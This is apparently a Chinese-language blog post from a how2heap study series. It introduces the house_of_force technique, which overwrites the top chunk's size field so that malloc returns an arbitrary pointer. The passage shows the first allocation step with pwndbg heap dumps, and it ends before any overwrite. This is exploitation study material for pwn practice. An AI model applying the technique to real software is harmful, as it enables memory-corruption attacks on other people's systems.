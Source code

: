 ```yaml
---
title: how2heap-4
date: 2019-07-10 01:38:28
tags: pwn
---
```


# how2heap-4



## house_of_force

Exploiting the Top Chunk (Wilderness) header in order to get malloc to return a nearly-arbitrary pointer

> house_of_force 是一种通过改写 top chunk 的 size 字段来欺骗 malloc 返回任意地址的技术。我们知道在空闲内存的最高处，必然存在一块空闲的 chunk，即 top chunk，当 bins 和 fast bins 都不能满足分配需要的时候，malloc 会从 top chunk 中分出一块内存给用户。所以 top chunk 的大小会随着分配和回收不停地变化。

### 解释

首先 malloc 一块内存
```
	fprintf(stderr, "\nLet's allocate the first chunk, taking space from the wilderness.\n");
	intptr_t *p1 = malloc(256);
	fprintf(stderr, "The chunk of 256 bytes has been allocated at %p.\n", p1 - sizeof(long)*2);
```

```
pwndbg> heap
0x603000 PREV_INUSE {
  prev_size = 0, 
  size = 273, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x603110 PREV_INUSE {
  prev_size = 0, 
  size = 134897, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
pwndbg> x/20gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000111      <-- chunk p1
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
pwndbg> x/10gx 0x603100
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000020ef1      <-- top chunk
0x603120:	0x0000000000000000	0x0000000000000000
0x603130:	0x0000000000000000	0x0000000000000000
0x603140:	0x0000000000000000	0x0000000000000000
```